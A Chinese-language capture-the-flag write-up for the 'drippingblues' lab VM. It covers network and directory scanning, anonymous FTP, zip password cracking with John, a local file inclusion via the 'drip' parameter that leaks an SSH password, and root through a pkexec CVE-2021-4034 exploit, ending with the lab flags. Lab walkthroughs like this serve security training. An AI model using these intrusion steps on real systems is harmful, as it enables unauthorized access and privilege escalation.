



# 信息搜集
主机发现

```clike
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-31 00:45 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0041s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.000068s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.042s latency).
MAC Address: 72:10:25:EC:4F:8C (Unknown)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.073s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for doc.hmv (192.168.21.13)
Host is up (0.00019s latency).
MAC Address: 08:00:27:E6:E9:5F (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (6 hosts up) scanned in 4.06 seconds
```
端口扫描

```clike
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-31 00:46 EDT
Nmap scan report for doc.hmv (192.168.21.13)
Host is up (0.0014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E6:E9:5F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.92 seconds
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p21,22,80 192.168.21.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-31 00:47 EDT
Nmap scan report for doc.hmv (192.168.21.13)
Host is up (0.00023s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 08:00:27:E6:E9:5F (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```

# 漏洞利用
看一下80端口

```clike
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.13                              
<html>
<body>
driftingblues is hacked again so it's now called drippingblues. :D hahaha
<br>
by
<br>
travisscott & thugger
</body>
</html>
```
目录扫描

```clike
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.13 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,txt,php,jpg,png,zip,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.13
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,png,zip,git,html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 138]
/.php                 (Status: 403) [Size: 278]
/robots.txt           (Status: 200) [Size: 78]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
/logitech-quickcam_w0qqcatrefzc5qqfbdz1qqfclz3qqfposz95112qqfromzr14qqfrppz50qqfsclz1qqfsooz1qqfsopz1qqfssz0qqfstypez1qqftrtz1qqftrvz1qqftsz2qqnojsprzyqqpfidz0qqsaatcz1qqsacatzq2d1qqsacqyopzgeqqsacurz0qqsadisz200qqsaslopz1qqsofocuszbsqqsorefinesearchz1.html (Status: 403) [Size: 278]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```
/robots.txt

```clike
User-agent: *
Disallow: /dripisreal.txt
Disallow: /etc/dripispowerful.html
```
/dripisreal.txt

```clike
hello dear hacker wannabe,
go for this lyrics:
https://www.azlyrics.com/lyrics/youngthug/constantlyhating.html
count the n words and put them side by side then md5sum it
ie, hellohellohellohello >> md5sum hellohellohellohello
it's the password of ssh
```
匿名登录看看21端口

```clike
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.21.13
Connected to 192.168.21.13.
220 (vsFTPd 3.0.3)
Name (192.168.21.13:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
找到一个zip文件，下载下来

```clike
ftp> ls -la
229 Entering Extended Passive Mode (|||54891|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Sep 19  2021 .
drwxr-xr-x    2 0        0            4096 Sep 19  2021 ..
-rwxrwxrwx    1 0        0             471 Sep 19  2021 respectmydrip.zip
226 Directory send OK.
ftp> get respectmydrip.zip
local: respectmydrip.zip remote: respectmydrip.zip
229 Entering Extended Passive Mode (|||61025|)
150 Opening BINARY mode data connection for respectmydrip.zip (471 bytes).
100% |*******************|   471      828.75 KiB/s    00:00 ETA
226 Transfer complete.
471 bytes received in 00:00 (468.39 KiB/s)
```
爆破一下压缩包密码

```clike
┌──(kali㉿kali)-[~]
└─$ zip2john respectmydrip.zip > hash
ver 2.0 respectmydrip.zip/respectmydrip.txt PKZIP Encr: cmplen=32, decmplen=20, crc=5C92F12B ts=96AB cs=5c92 type=0
ver 2.0 respectmydrip.zip/secret.zip is not encrypted, or stored with non-handled compression type
                                                                
┌──(kali㉿kali)-[~]
└─$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
072528035        (respectmydrip.zip/respectmydrip.txt)     
1g 0:00:02:09 DONE 3/3 (2025-03-31 01:21) 0.007719g/s 26931Kp/s 26931Kc/s 26931KC/s 072318060..072598145
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```



还有一个压缩包，没跑出来
提示drip，返回80端口看看有什么关系
想到了index.php和robots.txt中的/etc/dripispowerful.html



```clike
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.13/index.php?drip=/etc/dripispowerful.html
<!DOCTYPE html>
<html>
<body>
<style>
body {
background-image: url('drippin.jpg');
background-repeat: no-repeat;
}

@font-face {
    font-family: Segoe;
    src: url('segoeui.ttf');
}

.mainfo {
  text-align: center;
  border: 1px solid #000000;
  font-family: 'Segoe';
  padding: 5px;
  background-color: #ffffff;
  margin-top: 300px;
}

.emoji {
        width: 32px;
        }
</style>
password is:
imdrippinbiatch
</body>
</html>

<html>
<body>
driftingblues is hacked again so it's now called drippingblues. :D hahaha
<br>
by
<br>
travisscott & thugger
</body>
</html>
```
使用thugger用户名登录了ssh

```clike
┌──(kali㉿kali)-[~]
└─$ ssh thugger@192.168.21.13
thugger@192.168.21.13's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.11.0-34-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


495 updates can be installed immediately.
233 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
New release '22.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2025.
thugger@drippingblues:~$
```

# 提权
user.txt
```clike
thugger@drippingblues:~$ ls -la
total 64
drwxr-xr-x 14 thugger thugger 4096 Eyl 19  2021 .
drwxr-xr-x  3 root    root    4096 Eyl 18  2021 ..
-rw-------  1 thugger thugger    8 Eyl 19  2021 .bash_history
drwxr-xr-x 10 thugger thugger 4096 Eyl 19  2021 .cache
drwxr-xr-x 11 thugger thugger 4096 Eyl 19  2021 .config
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Desktop
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Documents
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Downloads
drwxr-xr-x  3 thugger thugger 4096 Eyl 19  2021 .local
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Music
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Pictures
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Public
drwx------  2 thugger thugger 4096 Eyl 19  2021 .ssh
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Templates
-r-x------  1 thugger thugger   32 Eyl 19  2021 user.txt
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Videos
thugger@drippingblues:~$ cat user.txt
5C50FC503A2ABE93B4C5EE3425496521
```
看一下都有什么

```clike
thugger@drippingblues:~$ uname -a
Linux drippingblues 5.11.0-34-generic #36~20.04.1-Ubuntu SMP Fri Aug 27 08:06:32 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
thugger@drippingblues:~$ sudo -l
[sudo] password for thugger: 
Sorry, user thugger may not run sudo on drippingblues.
thugger@drippingblues:~$ find / -perm -u=s -type f 2>/dev/null
/snap/snapd/12883/usr/lib/snapd/snap-confine
/snap/snapd/7264/usr/lib/snapd/snap-confine
/snap/core18/1705/bin/mount
/snap/core18/1705/bin/ping
/snap/core18/1705/bin/su
/snap/core18/1705/bin/umount
/snap/core18/1705/usr/bin/chfn
/snap/core18/1705/usr/bin/chsh
/snap/core18/1705/usr/bin/gpasswd
/snap/core18/1705/usr/bin/newgrp
/snap/core18/1705/usr/bin/passwd
/snap/core18/1705/usr/bin/sudo
/snap/core18/1705/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1705/usr/lib/openssh/ssh-keysign
/snap/core18/2128/bin/mount
/snap/core18/2128/bin/ping
/snap/core18/2128/bin/su
/snap/core18/2128/bin/umount
/snap/core18/2128/usr/bin/chfn
/snap/core18/2128/usr/bin/chsh
/snap/core18/2128/usr/bin/gpasswd
/snap/core18/2128/usr/bin/newgrp
/snap/core18/2128/usr/bin/passwd
/snap/core18/2128/usr/bin/sudo
/snap/core18/2128/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2128/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/bin/umount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
thugger@drippingblues:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
thugger@drippingblues:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
thugger:x:1001:1001:,,,:/home/thugger:/bin/bash
```
上传脚本查看有没有可以利用的地方



4034/blob/main/CVE-2021-4034.py
提权
```clike
thugger@drippingblues:~$ vi ex.py
thugger@drippingblues:~$ python ex.py

Command 'python' not found, did you mean:

  command 'python3' from deb python3
  command 'python' from deb python-is-python3

thugger@drippingblues:~$ python3 ex.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1001(thugger) groups=1001(thugger)
```
root.txt

```clike
# cd /root
# ls -la
total 24
drwx------  4 root root 4096 Sep 19  2021 .
drwxr-xr-x 21 root root 4096 Sep 19  2021 ..
-rw-------  1 root root  382 Sep 19  2021 .bash_history
drwx------  2 root root 4096 Apr 23  2020 .cache
drwx------  2 root root 4096 Sep 19  2021 .ssh
-r-x------  1 root root   32 Sep 19  2021 root.txt
# cat root.txt
78CE377EF7F10FF0EDCA63DD60EE63B8
```
